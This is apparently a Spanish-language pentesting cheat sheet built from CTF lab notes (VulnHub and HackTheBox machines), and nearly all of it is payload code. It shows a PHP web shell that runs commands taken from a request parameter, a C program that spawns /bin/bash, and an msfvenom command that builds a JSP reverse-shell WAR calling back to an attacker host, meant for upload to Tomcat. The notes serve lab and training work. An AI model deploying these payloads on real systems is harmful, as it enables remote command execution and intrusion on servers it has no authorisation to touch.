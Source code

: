 # LOCAL FILE INCLUSION LFI
---
## CREACIÓN PHP LFI .phar
Como se ha dicho al principio, el LFI ocurre cuando mediante un campo de entrada se está llamando a la ruta de un archivo local. Típicamente, esta situación la veremos en variables de PHP, pero no hay que limitar la vulnerabilidad a esto porque sería erróneo
```java
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/exploits]
└─$ cat pwned.phar        
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.phar
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   3   │ ?>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
## CREACIÓN EXPLOIT LENGUAJE C

para crear un exploit de lenguaje c, se crear un archivo con la extensión .c y acontinuacion lo siguiente:
```java
#include <stdio.h>
#include <stdlib.h>
int main(void){
        system("/bin/bash");
        return 0;
}
```
Una vez creado el archivo se debe compilar para transformarlo en binario.
```java
gcc exploit.c -o binarioexploit
```
## CREACIÓN APACHE TOMCAT, .war MSFVENOM
Primero filtramos el exploit de java para crear tipo warm
```java 
┌──(s3cur1ty3c㉿kali)-[~/CTF/HTB/jerry/nmap]
└─$ msfvenom -l payloads | grep java 
┌──(s3cur1ty3c㉿kali)-[~/CTF/HTB/jerry/nmap]
└─$ msfvenom -l payloads | grep java 
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
```
Creamos un payload con msfvenom y lo subimos a tomcat
```java 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.95 LPORT=443 -f war -o shell.war
```java 

